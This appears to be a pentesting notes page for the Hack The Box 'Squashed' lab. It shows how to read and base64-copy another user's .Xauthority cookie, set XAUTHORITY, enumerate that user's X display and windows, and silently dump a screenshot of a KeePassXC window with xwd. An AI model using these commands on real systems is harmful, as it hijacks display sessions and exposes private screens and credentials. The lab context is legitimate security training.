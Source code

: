 ```yaml
---
description: >-
  Pentesting X11X . Window System (X) is a versatile windowing system present on
  UNIX-based operating systems.
---
```


# Screenshot capturing

### X11

X is a portable, network window system for managing windowed GUI's. When paired with a display manager, it servers as a GUI which can run programs which require a GUI to function properly.

{% hint style="info" %}
The presence of **.Xauthority** and **.xession** files indicate a display could be configured. A .Xauthority file is used to save credentials as cookies used by xauth when authenitcating X sessions. The cookie is used to authenticate the connections to that specific display.
{% endhint %}

This vulnerbality can be found in: [https://app.hackthebox.com/machines/Squashed](https://app.hackthebox.com/machines/Squashed)

### Reading the .Xauthority cookie

```bash
# Read file
$ cat /mnt/.Xauthority | base64
AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABCSegJckVyw7fOCjfGE9Aap

# Decode and save in /tmp
echo AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABCSegJckVyw7fOCjfGE9Aap | base64 -d > /tmp/.Xauthority
```

### Setting the cookie

```bash
# Set
export XAUTHORITY=/tmp/.Xauthority
```

{% hint style="info" %}
The command `export XAUTHORITY=/tmp/.Xauthority` sets the environment variable `XAUTHORITY` to the value `/tmp/.Xauthority. Environment variables are dynamic values and p`rovide a way to store and retrieve configuration settings, paths to files or directories, or other information that can be used to customize the behavior of applications.
{% endhint %}

Using this cookie we now have access to a User's session. We can use w to find out which display is used by the user.

```bash
alex@squashed:/tmp$ w
 16:14:13 up  4:02,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               12:12    4:02m 16.33s  0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Using the cookie

```bash
# Find more
xdpyinfo -display :0
```

With xwininfo we find active windows.

```bash
xwininfo -root -tree -display :0
```

<figure><img src="broken-reference" alt=""><figcaption><p>In this case the keepassxc is what we want to see.</p></figcaption></figure>

It shows :0 is the display used. Using the xwd command we dump the image of a window. xwd = X Window dump.

```bash
# Dump image
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

* -root Main root window.
* -screen Send GetImage request to root window
* -silent No output messages or sounds
* -display Display used

### The screenshot

```bash
# Convert the screenshot to png
convert screen.xwd screen.png
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>
